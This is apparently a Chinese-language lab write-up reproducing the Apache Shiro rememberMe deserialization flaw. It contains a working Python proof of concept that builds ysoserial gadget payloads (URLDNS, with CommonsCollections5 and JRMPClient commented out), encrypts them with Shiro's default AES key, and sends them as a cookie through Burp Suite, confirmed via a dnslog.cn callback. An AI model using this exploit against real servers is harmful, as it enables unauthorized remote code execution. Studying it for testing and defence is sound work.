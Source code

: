 

生成恶意cookie的脚本Shiro-poc.py如下所示

```python
import base64
import uuid
import subprocess
from Crypto.Cipher import AES


def rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-all.jar', 'URLDNS', command], stdout=subprocess.PIPE)
    #popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-all.jar', 'CommonsCollections5', command], stdout=subprocess.PIPE)
    # popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-all.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = "kPH+bIxk5D2deZiIxcaaaA=="  # 默认key值
    mode = AES.MODE_CBC
    iv = uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext


if __name__ == '__main__':
    #payload = rememberme('/System/Applications/Calculator.app/Contents/MacOS/Calculator')
    payload = rememberme('http://xxxxxx.dnslog.cn')
    with open("./payload.cookie", "w") as fpw:
        print("rememberMe={}".format(payload.decode()))
```



尝试使用DNSLOG的方式进行验证

首先打开www.dnslog.cn，获取一个subdomain xxxxxx.dnslog.cn，然后将脚本中的域名改为xxxxxx.dnslog.cn

执行python Shiro-poc.py生成payload格式如下(这里要注意下环境中默认java的版本，部分版本会报错，测试使用的版本为1.8.0_333)

![image-20220713131507205](/Users/luka077/Library/Application Support/typora-user-images/image-20220713131507205.png)

打开Burpsuite，把请求中的rememberMe内容换成payload中的内容，再次发送请求

![image-20220715155809884](/Users/luka077/Library/Application Support/typora-user-images/image-20220715155809884.png)

查看dnslog的记录，已经收到了请求，漏洞触发成功

tips：感觉触发漏洞的时机没有掌握好，本地调试过程中，发现如果是先登录成功之后，找其中任意一个请求包，把cookie中添加攻击payload再发送，并没有攻击成功。实际测试上，如果把服务端重启下，清掉浏览器缓存，然后发送任意带攻击payload的请求，100%可以成功。

不懂，后续再调试下看准确的触发时机是什么
